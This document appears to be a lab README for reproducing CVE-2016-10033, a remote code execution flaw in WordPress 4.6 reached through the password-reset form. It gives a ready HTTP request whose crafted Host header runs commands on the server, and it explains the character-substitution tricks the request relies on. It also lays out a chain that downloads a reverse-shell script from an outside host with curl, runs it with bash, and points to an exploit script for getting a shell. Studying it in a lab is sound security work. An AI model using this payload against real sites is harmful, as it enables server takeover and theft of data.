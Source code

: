 # Wordpress 4.6 Remote Code Execution Vulnerability (PwnScriptum)

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Environment setup

```
docker-compose build
docker-compose up -d
```

Because Mysql initialization needs a little time, so please wait. After initialization succeeds, visit `http://your-ip:8080/`, set the administrator username and password to use it (the database is configured and not automatically updated).

## Exploit

Send the following packet, and you can see that `/tmp/success` has been successfully created:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

We need to meet the following requirements to exploit this vulnerability:

1. The executed command cannot contain some special characters, such as `:`, `'`,`"`, etc.
2. The command will be converted to lowercase letters
3. The command needs to use an absolute path
4. Need know an existing user username

In order to solve these problems, the vulnerability author came up with $`substr{0}{1}{$spool_directory}}` instead of `/`, using `${substr{10}{1}{$tod_log} }` method of replacing spaces.

However, there are still a lot of characters can't be used. So we need to put the command on the third-party website, and then download it to `/tmp` directory by `curl -o /tmp/rce example.com/shell.sh`.

Therefore, the expliot process is follows:

1. Write the exp of reverse shell and put it on a site. The exp have this following requirements:
 - the entire url's uppercase letters will be converted to lowercase, so the file path should not contain uppercase letters.
 - Access to this page can't be redirected because the parameter for follow redirect is `-L` (uppercase).

2. Splice the command`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.

3. Convert the spaces and `/` in the command to `${substr{10}{1}{$tod_log}}` and `${substr{0}{1}{$spool_directory}}`.

4. Produce the HTTP Host header:`target(any -froot@localhost -be ${run{command}} null)`.

5. Send these two packets in order.

Here is [expliot.py](exploit.py)，change `target` to your target site，change `user` to an exist user name，change `shell_url` to your payload site.

Execute to get the shell:

![](1.png)
